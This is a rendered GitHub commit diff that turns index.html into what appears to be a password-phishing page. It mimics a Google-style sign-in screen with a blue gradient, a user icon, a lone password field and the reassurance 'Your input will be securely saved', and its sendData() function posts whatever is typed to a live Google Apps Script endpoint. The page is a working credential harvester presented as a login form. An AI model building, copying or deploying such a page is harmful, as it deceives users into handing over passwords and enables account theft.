

Before and after one commit to fenetre-identification/Identification, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Mise à jour locale avant force push

```diff
--- a/index.html
+++ b/index.html
@@ -1,8 +1,101 @@
+<!DOCTYPE html>
+<html lang="en">
+<head>
+  <meta charset="UTF-8">
+  <meta name="viewport" content="width=device-width, initial-scale=1.0">
+  <title>Login Style Input</title>
+  <style>
+    body {
+      margin: 0;
+      height: 100vh;
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      background: linear-gradient(145deg, #1a73e8, #4285f4);
+      font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+      color: #fff;
+    }
+
+    .container {
+      text-align: center;
+      background: rgba(255, 255, 255, 0.1);
+      padding: 30px;
+      border-radius: 16px;
+      box-shadow: 0 8px 20px rgba(0, 0, 0, 0.3);
+      width: 400px;
+    }
+
+    .logo {
+      margin-bottom: 20px;
+    }
+
+    .logo img {
+      width: 80px;
+      height: 80px;
+    }
+
+    .password-input {
+      width: 100%;
+      padding: 12px 15px;
+      border: 1px solid rgba(255, 255, 255, 0.5);
+      border-radius: 8px;
+      background: rgba(255, 255, 255, 0.2);
+      color: #fff;
+      font-size: 1rem;
+      margin-bottom: 20px;
+      outline: none;
+      transition: border 0.3s ease;
+    }
+
+    .password-input:focus {
+      border: 1px solid #fff;
+    }
+
+    .submit-btn {
+      width: 100%;
+      padding: 12px;
+      background: #4285f4;
+      border: none;
+      border-radius: 8px;
+      color: #fff;
+      font-size: 1rem;
+      font-weight: bold;
+      cursor: pointer;
+      transition: background 0.3s ease;
+    }
+
+    .submit-btn:hover {
+      background: #2a6ed4;
+    }
+
+    .info-text {
+      margin-top: 15px;
+      font-size: 0.9rem;
+      color: rgba(255, 255, 255, 0.8);
+    }
+  </style>
+</head>
+<body>
+  <div class="container">
+    <div class="logo">
+      <!-- Logo resembling a user icon -->
+      <img src="https://upload.wikimedia.org/wikipedia/commons/9/99/Sample_User_Icon.png" alt="User Icon">
+    </div>
+    <input
+      type="password"
+      class="password-input"
+      placeholder="Enter your password"
+      id="userInput"
+    />
+    <button class="submit-btn" onclick="sendData()">Submit</button>
+    <p class="info-text">Your input will be securely saved.</p>
+  </div>
+
   <script>
     function sendData() {
       const userInput = document.getElementById('userInput').value;
 
-    // Remplacez l'URL suivante par votre Web App URL
+      // Remplacez cette URL par l'URL de votre Google Apps Script
       const endpoint = 'https://script.google.com/macros/s/AKfycby0W6WYiO697tRCpDzT6C0O0dcJNviu56Sa6amMwGuaTyGNEY-1TV8c6AWNpJVEGPct/exec';
 
       fetch(endpoint, {
@@ -26,3 +119,5 @@
         });
     }
   </script>
+</body>
+</html>
```
Lines whose indentation alone changed are shown as unchanged.
